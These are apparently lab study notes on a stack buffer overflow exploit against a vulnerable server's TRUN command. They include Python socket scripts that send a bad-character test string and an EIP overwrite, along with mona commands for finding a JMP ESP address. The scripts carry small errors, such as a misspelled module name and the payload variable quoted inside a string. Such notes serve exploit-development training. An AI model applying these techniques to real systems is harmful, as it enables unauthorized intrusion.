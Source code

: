 		import socket
		import sys

		badchars = (
		"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
		"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f"
		"\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
		"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
		"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
		"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
		"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
		"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

		shellcode = "A"*2003+"B"*4 + badchars
		s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)

		try:
			connect=s.connect(('IP', port))
			s.send(('TRUN /.:/ + shellcode'))
		except:
			print("CHECK DEBUGGER!.")
		s.close()

		Then follow ESP in dump.

	Find the right module:

		!mona modules
			check for False ASLR+DEP dlls

		/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
			JMP ESP ? (FFE4)

		!mona find -s "\xff\xe4" -m dll.dll

		then from results:

			import socket
			import sys

			shellcode = "a"*2003 + "\x??\x??\x??\x??"
			s=scoket.socket(socket.AF_INET, socket.SOCK_STREAM)
			try:
				connect=s.connect(('IP', port))
				s.send(('TRUN /.:/ + shellcode'))
			except:
				print("CHECK DEBUGGER!.")
			s.close()
